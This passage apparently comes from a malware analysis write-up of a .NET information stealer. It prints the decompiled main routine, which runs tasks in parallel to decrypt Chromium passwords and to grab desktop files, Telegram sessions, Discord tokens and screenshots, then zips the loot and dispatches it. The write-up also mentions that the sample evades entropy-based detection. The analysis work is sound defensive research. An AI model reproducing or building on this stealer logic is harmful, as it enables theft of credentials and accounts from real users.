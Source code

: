 As a result, the file appears "packed" to entropy-based detectors, but is fully functional and readable by the .NET runtime at execution.

# Stage 2: Main{}

```csharp
using System;
using System.Threading.Tasks;
using Browsers;
using Grabbers;
using Messengers;
using Senders;
using SystemInfo;

namespace Main
{
	// Token: 0x02000010 RID: 16
	internal class ExecutionCore
	{
		// Token: 0x06000025 RID: 37 RVA: 0x00003680 File Offset: 0x00001880
		private static void Main(string[] args)
		{
			Task task = Task.Run(delegate
			{
				Chromium.ChromiumPasswords.DecryptingBrowsersPasswords();
			});
			Task task2 = Task.Run(delegate
			{
				Desktop.GrabberDesktop();
			});
			Task task3 = Task.Run(delegate
			{
				Telegram.GrabberTelegramSession();
			});
			Task task4 = Task.Run(delegate
			{
				Discord.GrabberDiscordToken();
			});
			Task task5 = Task.Run(delegate
			{
				Screenshot.GrabberScreenshot();
			});
			Task.WaitAll(new Task[] { task, task2, task3, task4, task5 });
			DataDispatch.ZipCompression();
			DataDispatch.Dispatch(Variables.ID);
		}
	}
}
```

When the info stealer is launched, the first thing `Main{}` executes is multiple asynchronous tasks concurrently to collect sensitive data from different sources:

